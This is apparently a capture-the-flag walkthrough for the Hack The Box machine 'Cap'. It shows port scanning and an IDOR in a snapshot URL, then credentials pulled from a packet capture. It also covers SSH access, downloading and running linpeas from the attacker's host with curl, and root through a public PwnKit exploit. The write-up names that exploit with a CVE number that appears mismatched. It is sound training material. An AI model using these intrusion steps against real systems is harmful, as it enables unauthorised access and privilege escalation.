

# Cap Walkthrough

## Connecting to the Box

`sudo openvpn VPN` where VPN is the VPN that is downloaded from HTB.
After connecting to the VPN, we can now spawn the box from the page. The IP address for the instance I was playing with was 10.10.10.245 so whenever this IP address is referenced, it means the victim/box.

## Scanning and Enumeration

### Nmap

First thing after the instance has spawned is to run an nmap scan on it. The command used is `nmap -T4 -A -p- 10.10.10.245`.

The results of the nmap scan is as below:

```bash
nmap --min-rate 3000  -A -p- 10.10.10.245
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-11 16:53 +08
Nmap scan report for 10.10.10.245
Host is up (0.045s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Wed, 11 Dec 2024 08:40:04 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 11 Dec 2024 08:39:58 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Wed, 11 Dec 2024 08:39:58 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, OPTIONS, GET
|     Content-Length: 0
|   RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-title: Security Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.94SVN%I=7%D=12/11%Time=67595332%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,4C56,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:
SF:\x20Wed,\x2011\x20Dec\x202024\x2008:39:58\x20GMT\r\nConnection:\x20clos
SF:e\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2
SF:019386\r\n\r\n<!DOCTYPE\x20html>\n<html\x20class=\"no-js\"\x20lang=\"en
SF:\">\n\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x2
SF:0\x20<meta\x20http-equiv=\"x-ua-compatible\"\x20content=\"ie=edge\">\n\
SF:x20\x20\x20\x20<title>Security\x20Dashboard</title>\n\x20\x20\x20\x20<m
SF:eta\x20name=\"viewport\"\x20content=\"width=device-width,\x20initial-sc
SF:ale=1\">\n\x20\x20\x20\x20<link\x20rel=\"shortcut\x20icon\"\x20type=\"i
SF:mage/png\"\x20href=\"/static/images/icon/favicon\.ico\">\n\x20\x20\x20\
SF:x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min\.cs
SF:s\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css
SF:/font-awesome\.min\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"
SF:\x20href=\"/static/css/themify-icons\.css\">\n\x20\x20\x20\x20<link\x20
SF:rel=\"stylesheet\"\x20href=\"/static/css/metisMenu\.css\">\n\x20\x20\x2
SF:0\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/owl\.carousel\.m
SF:in\.css\">\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/stat
SF:ic/css/slicknav\.min\.css\">\n\x20\x20\x20\x20<!--\x20amchar")%r(HTTPOp
SF:tions,B3,"HTTP/1\.0\x20200\x20OK\r\nServer:\x20gunicorn\r\nDate:\x20Wed
SF:,\x2011\x20Dec\x202024\x2008:39:58\x20GMT\r\nConnection:\x20close\r\nCo
SF:ntent-Type:\x20text/html;\x20charset=utf-8\r\nAllow:\x20HEAD,\x20OPTION
SF:S,\x20GET\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest,121,"HTTP/1\.
SF:1\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\nContent-Type:\x20
SF:text/html\r\nContent-Length:\x20196\r\n\r\n<html>\n\x20\x20<head>\n\x20
SF:\x20\x20\x20<title>Bad\x20Request</title>\n\x20\x20</head>\n\x20\x20<bo
SF:dy>\n\x20\x20\x20\x20<h1><p>Bad\x20Request</p></h1>\n\x20\x20\x20\x20In
SF:valid\x20HTTP\x20Version\x20&#x27;Invalid\x20HTTP\x20Version:\x20&#x27;
SF:RTSP/1\.0&#x27;&#x27;\n\x20\x20</body>\n</html>\n")%r(FourOhFourRequest
SF:,189,"HTTP/1\.0\x20404\x20NOT\x20FOUND\r\nServer:\x20gunicorn\r\nDate:\
SF:x20Wed,\x2011\x20Dec\x202024\x2008:40:04\x20GMT\r\nConnection:\x20close
SF:\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x20
SF:232\r\n\r\n<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C//DTD\x20HTML\x203\.2
SF:\x20Final//EN\">\n<title>404\x20Not\x20Found</title>\n<h1>Not\x20Found<
SF:/h1>\n<p>The\x20requested\x20URL\x20was\x20not\x20found\x20on\x20the\x2
SF:0server\.\x20If\x20you\x20entered\x20the\x20URL\x20manually\x20please\x
SF:20check\x20your\x20spelling\x20and\x20try\x20again\.</p>\n");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=12/11%OT=21%CT=1%CU=41951%PV=Y%DS=2%DC=T%G=Y%TM=675
OS:953BB%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A
OS:)OPS(O1=M542ST11NW7%O2=M542ST11NW7%O3=M542NNT11NW7%O4=M542ST11NW7%O5=M54
OS:2ST11NW7%O6=M542ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88
OS:)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M542NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+
OS:%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
OS:T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A
OS:=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%D
OS:F=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=4
OS:0%CD=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3306/tcp)
HOP RTT      ADDRESS
1   72.85 ms 10.10.16.1
2   16.74 ms 10.10.10.245
```

### FTP (Port 22)

As we can see above, ports 21, 22 and 80 are open, where they are hosting services such as FTP, SSH and HTTP respectively.

Since we do not have any credentials yet, exploiting SSH (port 22) is pointless at this moment. So the next thing to try is to login to FTP anonymously.
FTP, sometimes allow for anonymous logins, and to perform this is to just run `ftp 10.10.10.245` and when they prompt for username and password, we just provide "anonymous".
However, in this case, it did not work. Seems like anonymous login has been disabled.


### HTTP (Port 80)

Since FTP cannot be further enumerated for now, the next thing to enumerate will be the HTTP server (port 80).

When visiting the page, it seems like we are logged in as Nathan.


After visiting all the other pages accessible through the sidebar on the left, the only interesting page is the Security Snapshots that shows packets captured.


Looking at the URL, ***<http://10.10.10.245/data/3>***, the value ***3*** seems to be an `id` of some sort and it  may be possibly be vulnerable to IDOR.
So to test this, we can replacing ***3*** with another number, e.g. ***0***, so the new link will be ***<http://10.10.10.245/data/0>*** and it worked, the statistics for the packet captures has changed!


So now we can download this new PCAP through the Download button and explore it in Wireshark.

## PCAP analysis with Wireshark

After downloading the PCAP, we can open it in Wireshark and start analyzing it. The screenshot below shows the Wireshark interface after opening the PCAP file.



However, there are quite a number of packets captured, so what I normally do is to follow the streams. This can be done by doing this in the ribbon above:

Analyse --> Follow --> TCP Stream

Then a dialog with the contents that are transmitted through TCP can be seen. By going through the dialogs, TCP stream 3 contains a username "nathan" and a password.


Additionally, based on the TCP stream, we can see that these credentials are used to access FTP. Thus we now have the credentials to access FTP.

## Exploitation

### FTP

Using the credentials from the PCAP file, we can login to the FTP server hosted on the victim machine. Once logged in, we can use `ls` to find out the contents of the directory. We can see that there is a file called `user.txt` which is likely to be the user flag. To download the file from the FTP server, we can run `get user.txt` and once downloaded, we can just use `cat` to view its contents.

### SSH

With the credentials from the PCAP file, we can also try to login to the SSH server hosted on the victim machine. So, the command to login to the victim machine using the credentials via SSH is `ssh nathan@10.10.10.245` and when the password is prompted, just provide the same password as the one used for FTP. After logging in, we can run `id` to see who we are logged in as and their privileges. 


After that, I tried to view the root directory but it seems that the user `nathan` does not have the permissions to do so. The next thing I tried is to run `sudo -l` to see what the user `nathan` can use `sudo` to run, but the user `nathan` is not allowed to run any commands using `sudo`.

The next step I took is to get linpeas.sh onto the victim machine and use it to find a way to perform privilege escalation. The command to download linpeas.sh onto the victim machine is `curl http://HTB_VPN_IP:8880/linpeas.sh -o linpeas.sh` and once it is downloaded, execute `./linpeas.sh`. 

After going through the results from `linpeas.sh`, it seems that the victim machine is vulnerable to CVE-2021-3560 and going through GitHub, I found an [exploit from ly4k](https://github.com/ly4k/PwnKit). By cloning this exploit and performing the same step of downloading onto the victim machine and executing it, I was able to gain root privileges and obtain the root.txt in the `/root` directory.
